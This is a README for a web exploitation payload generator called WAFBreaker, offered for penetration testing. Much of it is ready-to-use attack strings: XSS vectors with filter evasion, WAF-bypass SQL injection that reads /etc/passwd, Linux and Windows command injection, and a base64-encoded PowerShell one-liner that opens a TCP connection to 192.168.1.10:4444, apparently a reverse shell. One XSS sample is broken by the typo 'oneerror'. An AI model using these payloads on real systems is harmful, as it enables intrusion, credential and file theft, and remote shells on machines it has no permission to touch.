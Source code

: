 # 🛡️ Web Exploitation Payload Generator

![Python Version](https://img.shields.io/badge/python-3.8+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
[![Documentation](https://img.shields.io/badge/docs-Advanced-blueviolet)](https://github.com/yourusername/web-exploitation-payload-generator/wiki)

> **The ultimate toolkit for security professionals**  
> Generate, test, and analyze evasion-ready payloads for critical web vulnerabilities

## 📋 Table of Contents
- [✨ Key Features](#key-features)
- [⚙️ Installation](#installation)
- [🚀 Usage Examples](#usage-examples)
- [🔧 Payload Modules](#payload-modules)
- [🔌 API Integration](#api-integration)
- [📤 Sample Outputs](#sample-outputs)
- [🤝 Contributing](#contributing)
- [📜 License](#license)
- [⚠️ Legal Disclaimer](#legal-disclaimer)

---

<a id="key-features"></a>
## ✨ Key Features

| Feature | Description | Advanced Capabilities |
|---------|-------------|----------------------|
| **XSS Payloads** | Reflected, Stored, DOM-based payloads | SVG/srcdoc/null-byte bypasses, JSFuck obfuscation |
| **SQL Injection** | Error-based, Union-based, Blind SQLi | WAF evasion with versioned comments, whitespace bypass |
| **Command Injection** | Linux/Windows payload variants | Encoding bypasses, argument splitting |
| **Payload Processing** | Base64/URL/Hex/Unicode encoding | 3-tier obfuscation engine with null bytes |
| **Tool Integration** | Burp Suite & OWASP ZAP API | Automated payload delivery |
| **Enterprise Output** | CLI, JSON, clipboard | Customizable templates, batch processing |

---

<a id="installation"></a>
## ⚙️ Installation

```bash
# Clone repository
git clone https://github.com/ameer4k/WAFBreaker.git
cd WAFBreaker

# Install dependencies
pip install -r requirements.txt

# Launch tool
python main.py [CLI_OPTIONS]  # Command-line interface
python main.py                # Graphical interface
```

---

<a id="usage-examples"></a>
## 🚀 Usage Examples

### CLI Interface (Penetration Testing)

```bash
# Generate SQLi payloads with WAF bypass in JSON format
python main.py --type sqli --technique union --bypass --output json > payloads.json

# Create obfuscated XSS payloads and send to Burp Suite
python main.py --type xss --obfuscate 3 --burp http://localhost:8080

# Generate Windows command injection payloads with Base64 encoding
python main.py --type cmdi --os windows --encode base64
```

### GUI Interface (Security Training)

##### Open GUI Interface , just type : 
python  main.py 


Interactive payload generation with real-time preview

---

<a id="payload-modules"></a>
## 🔧 Payload Modules

### 1. XSS Payload Generator

```html
<!-- DOM-based XSS with evasion -->
<svg/onload=alert`${document.domain}`>
<img src=x oneerror=alert(1)>
<script>/*!*/al\u0065rt(1)/*!*/</script>
```

### 2. SQL Injection Engine

```sql
-- WAF Bypass Examples
1'/*!50000UNION*//*!50000SELECT*/@@version,2,3-- -
id=1' AND 1=(SELECT LOAD_FILE('/etc/passwd')) -- 
' OR 1=1 /*!0aNd*/ '1'='1
```

### 3. Command Injection

```bash
# Linux payloads
;cat /etc/passwd
`echo d2hvYW1p | base64 -d`  # whoami
```

```powershell
# Windows bypasses
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAIgAsADQANAA0ADQAKQA=
```

---

<a id="api-integration"></a>
## 🔌 API Integration

```python
# Send payloads directly to Burp Suite
from api_integration import BurpSuiteAPI

burp = BurpSuiteAPI("http://localhost:8080")
for payload in generated_payloads:
    burp.send_to_repeater(payload)
```

---

<a id="sample-outputs"></a>
## 📤 Sample Outputs

### JSON Export

```json
{
  "module": "XSS",
  "technique": "DOM-based",
  "payloads": [
    "<svg onload=alert(document.domain)>",
    "<img src=x:g onerror=\"eval(atob('YWxlcnQoJ1hTUycp'))\">",
    "javascript:alert`${btoa(document.cookie)}`"
  ]
}
```

### Command-Line Output

```text
[1] ' UNION SELECT @@version,user() -- 
[2] id=1'/*!50000UNION*//*!50000SELECT*/1,table_name,3 FROM information_schema.tables-- -
[3] ' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
```

---

<a id="contributing"></a>
## 🤝 Contributing

We welcome security researchers and developers to:

- Report issues and suggest features
- Submit PRs with new payload modules
- Improve evasion techniques
- Add support for additional security tools

See our [Contribution Guidelines](CONTRIBUTING.md) for details.

---

<a id="license"></a>
## 📜 License

This project is licensed under the MIT License - see [LICENSE](LICENSE) file for details.

---

<a id="legal-disclaimer"></a>
## ⚠️ Legal Disclaimer

**Important:** This tool is intended solely for:

- Educational purposes
- Security research
- Authorized penetration testing
- Improving defensive strategies

**Never use this tool on systems without explicit written permission.** The developers assume no liability and are not responsible for any misuse or damage caused by this software.
